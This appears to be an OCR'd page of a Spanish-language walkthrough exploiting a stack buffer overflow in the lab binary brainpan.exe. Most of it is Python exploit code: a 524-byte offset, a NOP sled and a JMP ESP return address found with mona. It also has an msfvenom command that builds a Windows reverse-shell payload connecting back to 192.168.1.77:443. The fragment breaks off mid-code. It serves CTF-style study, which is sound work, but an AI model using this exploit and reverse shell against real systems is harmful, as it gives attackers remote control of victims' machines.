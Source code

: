 ```yml
junk_ESP = badchars

buffer = offset + EIP + junk_ESP

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect(("192.168.1.101",9999))
    s.recv(1024)

    print "[*] Sending buffer"
    s.send(buffer + '\r\n')
    s.close()

except:
    print '[*] Conexion perdida'
    sys.exit()
```

## Septimo / Payload "NOPs"
Finalmente preparamos el scritps , teniendo en cuenta el little endian ya que es una maquina de 32bits ademas 
de darle un hilo para que se ejecute el payload en el siguiente salto de pila.

```yml
import socket
import sys
from time import sleep 
from struct import pack

"""
    Apuntar al ESP - Buscar el offcode - El siguiente salto que va a realizar el EIP

        > find / -iname nasm_shell.rb 2>/dev/null
            >>> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
        > jmp ESP
        > !mona modules ( FFE4 > Esto es el como el nombre del indice del siguiente salto del ESP hacia el junk )
        > !mona find -s "\xFF\xE4" -m brainpan.exe  ( "\xFF\xE4" = FFE4 )
        > [+] Results : 0x311712f3 ( Este es el valor del siguiente salto que hace el ESP )
        > Comprobamos con 0x311712f3 que dicha direccion apunta al indice FFE4
        > Cargamos un breakpoint/toggle como P.O.C. (Para hacerlo no habiletes el NOPs)
"""

offset =  "A"*524
NOPs = "\x90"*16 # AQUI LE ESTAMOS ASIGANDO X TIEMPO PARA QUE LE TIEMPO A QUE DESCODIFIQUE NUESTRO PAYLOAD Y LO EJECUTE
EIP = pack("<I", 0x311712f3 )

""""
    Crear nuestro payload

        > msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -e x86/shikata_ga_nai -f c lhost=192.168.1.77 lport=443 -b "\x00\x20" EXITFUNC=thread
            > -p windows/shell/shell_reverse_tc .....>>> S.O.
            > -a x86 ................................>>> Si es 32bits o 64bits
            > -f c ..................................>>> Formato de salida que sera en lenguaje "C" para ver el exploit en bruto
            > lhost = 192.168.1.77 ..................>>> IP a la que se va a conectar la victima
            > lport = 443............................>>> Puerto al que se va a conectar la victima
            > -b "\x00\x20" .........................>>> Los varchar que hemos quitado que la victima no admite
```